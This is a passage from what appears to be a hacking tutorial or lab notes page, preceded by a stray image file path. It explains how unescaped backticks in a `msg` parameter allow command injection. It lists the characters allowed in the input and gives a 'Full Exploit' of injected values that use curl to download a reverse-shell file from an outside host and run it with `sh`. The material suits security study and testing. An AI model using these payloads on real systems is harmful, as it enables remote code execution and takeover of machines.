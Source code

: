 Next, backticks (`` ` ``) are not escaped either. These allow for execution of arbitrary commands, just without arguments. By passing the just-written file as input to `sh`, we will be able to execute arbitrary commands _with_ arguments.

{% code title="Payload" %}
```sh
`sh</tmp/foo`
```
{% endcode %}

In the first step, we could have written a file with some commands to execute a reverse shell. Keep in mind that there are still some limitations around what content may be written to the file, as it is directly the output of the original command. You will be able to use only the following special characters in your input before the `<`:

{% code title="Allowed Characters" %}
```regex
\t (%09)
#%!+.-/:?[]^_~
0-9a-zA-Z
```
{% endcode %}

Execute `curl` or `wget` to download an arbitrary file with your reverse shell, or when preinstalled tools are limited, try using [#restricted-charset--no-http-dns-dd-shell](../../linux/hacking-linux-boxes.md#restricted-charset--no-http-dns-dd-shell "mention").

{% code title="Full Exploit" %}
```sh
msg=curl%09host.docker.internal:8000%09-o%09/tmp/shell1</tmp/cmd
msg=`sh</tmp/cmd`
msg=`sh</tmp/shell`
```
{% endcode %}
